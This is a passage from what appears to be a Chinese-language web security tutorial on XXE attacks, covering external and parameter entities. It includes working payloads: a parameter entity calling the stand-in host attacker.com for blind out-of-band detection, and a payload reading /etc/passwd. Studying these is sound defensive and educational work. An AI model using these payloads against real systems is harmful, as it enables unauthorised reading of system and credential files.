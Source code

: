 URL 可以使用 file:// 协议，因此也可以从文件加载外部实体。例如：

```bash
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XML 外部实体是引发 XML 外部实体攻击的主要手段。

### [什么是 XML 参数实体？](#toc_xml_6)

有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些加强，导致使用常规实体的 XXE 攻击会被阻止。在这种情况下，您可以改用 XML 参数实体。XML 参数实体是一种特殊的 XML 实体，只能在 DTD 中的其他地方引用。

声明 XML 参数实体有两个明显的特征：

首先，实体名称前使用是的百分号：

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，实体参数在引用时使用的是%符号而不是&符号：

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这意味着可以通过 XML 参数实体使用带外检测来测试 blind XXE，如下所示：

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这个 XXE 的 payload 声明了一个名为 xxe 的 XML 参数实体，然后在 DTD 中使用该实体。这将导致对攻击者的域进行 DNS 查找和 HTTP 请求来判断攻击是否成功。

## [主要利用方式](#toc__1)

### [读文件](#toc__2)

现在已不同方式读取`/etc/passwd`文件，如果是 Windows 主机可以读取：C:\\windows\\system32\\drivers\\etc\\hosts 文件

第一：直接读取，也可以通过 file 协议进行读取

```bash
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

[![img](assets/1698894099-82a7e33bac03e06944ea536287b1e5f5.png)](https://storage.tttang.com/media/attachment/2022/11/14/94e0ae3b-85f7-489e-bdc9-c4a9da38e190.png)
